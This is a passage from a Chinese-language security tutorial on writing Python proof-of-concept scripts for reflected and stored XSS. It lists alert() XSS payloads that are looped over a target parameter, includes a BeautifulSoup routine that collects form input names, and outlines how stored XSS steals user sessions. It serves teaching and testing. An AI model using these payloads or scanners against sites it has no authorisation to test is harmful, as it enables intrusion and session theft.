 

##### (4)进阶扩展

- **多Payload测试**

~~~python
PAYLOADS = [
    "<script>alert(1)</script>",
    "\"onfocus=\"alert(1)",
    "<a href=\"javascript:alert(1)\">"
]

for payload in PAYLOADS:
    result = check_reflected_xss(TARGET, PARAM, payload)
~~~

- **自动化参数发现**

原理：使用BeautifulSoup库，用于从一个HTML页面中提取所有某一个标签的name 属性。

例：

~~~python
from bs4 import BeautifulSoup
import requests

def find_params(url):
    
    # 发送GET请求获取目标页面的HTML内容
    res = requests.get(url)
    
    # 使用BeautifulSoup解析HTML内容
    soup = BeautifulSoup(res.text, 'html.parser')
    
    # 提取所有<input>标签的name属性
    return [tag['name'] for tag in soup.find_all('input') if 'name' in tag.attrs]

~~~

***

#### 2.储存型XSS POC编写

#####  (1)储存型XSS攻击流程

- 攻击者构造一个包含恶意脚本的payload，例如：<svg onload=alert(1)>
- 通过目标网站的表单、评论框或其他输入字段，攻击者提交含有XSS payload的数据。
- 目标网站的服务器接收并存储含有恶意payload的数据，通常在数据库中。
- 当其他用户访问包含恶意数据的页面时，存储在服务器上的恶意脚本被检索并发送到用户的浏览器。
- 用户的浏览器接收并执行恶意脚本，攻击者成功利用XSS漏洞。
-  恶意脚本可以窃取用户数据、会话信息、操纵用户在网站上的行为等。

##### (2)书写Python代码的步骤

**1.库的使用**
